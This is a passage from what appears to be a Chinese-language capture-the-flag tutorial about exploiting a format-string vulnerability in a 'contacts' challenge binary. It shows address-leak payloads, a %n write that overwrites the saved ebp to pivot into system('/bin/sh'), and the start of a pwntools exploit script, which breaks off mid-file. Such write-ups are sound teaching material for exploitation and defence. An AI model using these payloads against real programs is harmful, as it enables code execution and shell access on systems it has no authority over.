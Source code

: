 再者，我們可以看出下面的地址保存着上層函數的調用地址，其相對於格式化字符串的偏移爲 6，這樣我們可以直接修改上層函數存儲的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 構造聯繫人獲取堆地址

得知上面的信息後，我們可以利用下面的方式獲取堆地址與相應的 ebp 地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

來獲取對應的相應的地址。後面的 bbbb 是爲了接受字符串方便。

這裏因爲函數調用時所申請的棧空間與釋放的空間是一致的，所以我們得到的 ebp 地址並不會因爲我們再次調用而改變。

在部分環境下，system地址會出現\x00，導致printf的時候出現0截斷導致無法泄露兩個地址，因此可以將payload的修改如下：

```text
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload修改爲這樣的話，還需要在heap上加入12的偏移。這樣保證了0截斷出現在泄露之後。

#### 修改ebp

由於我們需要執行 move 指令將 ebp 賦給 esp，並還需要執行 pop ebp 纔會執行 ret 指令，所以我們需要將 ebp 修改爲存儲 system 地址 -4 的值。這樣 pop ebp 之後，esp 恰好指向保存 system 的地址，這時在執行 ret 指令即可執行 system 函數。

上面已經得知了我們希望修改的 ebp 值，而也知道了對應的偏移爲 6，所以我們可以構造如下的 payload 來進行修改相應的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 獲取shell

這時，執行完格式化字符串函數之後，退出到上上函數，我們輸入 5，退出程序即會執行 ret 指令，就可以獲取 shell。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
```